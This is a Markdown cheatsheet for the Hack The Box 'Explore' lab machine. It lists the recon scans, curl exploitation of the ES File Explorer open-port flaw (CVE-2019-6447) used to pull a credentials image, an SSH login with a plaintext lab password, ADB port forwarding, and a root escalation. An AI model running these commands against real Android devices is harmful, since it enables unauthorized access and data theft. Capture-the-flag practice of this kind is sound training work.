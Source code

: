 # HTB: Explore — Command Cheatsheet

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.247
nmap -p 2222,38925,42135,59777 -sCV -oA scans/nmap-tcpscripts 10.10.10.247
```

---

## 🛡️ CVE-2019-6447 — ES File Explorer
```bash
# Test access
curl 10.10.10.247:59777

# Enumerate files
curl 10.10.10.247:59777 -d '{"command": "listFiles"}'

# List images (look for creds.jpg)
curl 10.10.10.247:59777 -d '{"command": "listPics"}'

# Download image with password
python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
```

---

## 🗑️ [Shell](SSH) as kristi
```bash
sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh -p 2222 kristi@10.10.10.247

# Look for user.txt
cd /storage/emulated/0
cat user.txt
```

---

## 🤎 Enumeration as kristi
```bash
netstat -tnlp  # confirm port 5555 is open
```

---

## ⚖️ ADB Setup (Port Forwarding)
```bash
# Reconnect SSH with port forward
ssh -L 5555:localhost:5555 -p 2222 kristi@10.10.10.247

# On local machine
adb connect localhost:5555
adb devices
adb shell
```

---

## 🤐 Root Access via ADB
```bash
adb shell
su

# Locate and read flag
find / -name root.txt 2>/dev/null
cat /data/root.txt
```

---

## 📑 Resources
- CVE-2019-6447: ES File Explorer RCE
- ADB: Android Debug Bridge over SSH Tunnel
- ES File Explorer Exploit Script: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln